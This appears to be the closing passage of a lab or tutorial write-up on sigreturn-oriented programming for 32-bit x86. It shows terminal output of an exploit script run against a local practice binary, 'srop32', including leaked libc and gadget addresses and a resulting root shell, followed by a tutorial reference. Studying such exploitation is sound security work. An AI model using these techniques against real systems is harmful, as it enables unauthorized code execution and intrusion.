 ```
root@bs-virtual-machine:~/pwnable# python exploit.py 
[*] '/root/pwnable/srop32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/root/pwnable/srop32': pid 10887
The base address of Libc    : 0xf7d8a000
Address of syscall gadget   : 0xf7f60006
Address of string "/bin/sh" : 0xf7ee302b
Address of sigreturn()      : 0xf7f60001
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**References**  
[https://www.lazenca.net/display/TEC/01.SROP%28Sigreturn-oriented+programming%29+-+x86](https://www.lazenca.net/display/TEC/01.SROP%28Sigreturn-oriented+programming%29+-+x86)